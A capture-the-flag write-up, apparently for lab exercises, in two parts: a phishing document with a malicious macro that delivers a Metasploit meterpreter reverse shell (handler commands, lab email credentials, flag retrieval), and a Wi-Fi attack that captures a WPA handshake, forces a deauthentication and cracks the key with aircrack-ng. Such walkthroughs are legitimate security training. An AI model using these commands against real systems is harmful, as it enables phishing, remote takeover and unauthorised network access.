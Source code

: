 - `msfconsole` can again be used to listen in after the malicious document is opened with the following commands: 
	- `use multi/handler`
	- `set payload windows/meterpreter/reverse_tcp`
	- `set LHOST [ATTACKBOX IP]`
	- `set LPORT 8888`
	- `show options`
	- `exploit`
- The next step is to email the document to `marta@socmas.thm`  using the email `info@socnas.thm` & password `MerryPhishMas!`.
- After receiving a reverse shell, `meterpreter` allows to run commands such as `cd c:/users/Administrator/Desktop` and `ls` to view files on the target system.

**Questions:**
1. *What is the flag value inside the `flag.txt` file that’s located on the Administrator’s desktop?*
**Answer**: THM{PHISHING_CHRISTMAS}. After connecting to the target user's desktop, the following commands can be run: `cd c:/users/Administrator/Desktop`, `ls`, `cat flag.txt`.

**Concepts:**
- Understanding phishing attacks
- Using msfconsole to create a document with a malicious macro and to get the reverse shell.

# Day 11

**Challenge:**
- The challenge starts with checking any wireless configuration available using `iw dev`.
- `sudo iw dev wlan2 scan` scans for available networks and shows the network with SSID (Service set identifier) `MalwareM_AP` and BSSID `02:00:00:00:00:00`. 
- To switch to monitor mode (which is used for network analysis & security auditing), the following commands had to be executed - `sudo ip link set dev wlan2 down`, `sudo iw dev wlan2 set type monitor` & `sudo ip link set dev wlan2 up`.
-  `sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2`  captures traffic and saves the information.
- Using `sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2`, the WPA handshake `02:00:00:00:00:00` is established in the first terminal.
- On running `sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap`, the PSK is found. 
![day11.JPG](https://github.com/teayahz/cryptonite_taskphase_tia/blob/main/AOC24/img/day11.JPG?raw=true)
- Now the commands `wpa_passphrase MalwareM_AP 'fluffy/champ24' > config` & `sudo wpa_supplicant -B -c config -i wlan2` had to be executed followed by `iw dev` which showed that the network `MalwareM_AP` had been joined.
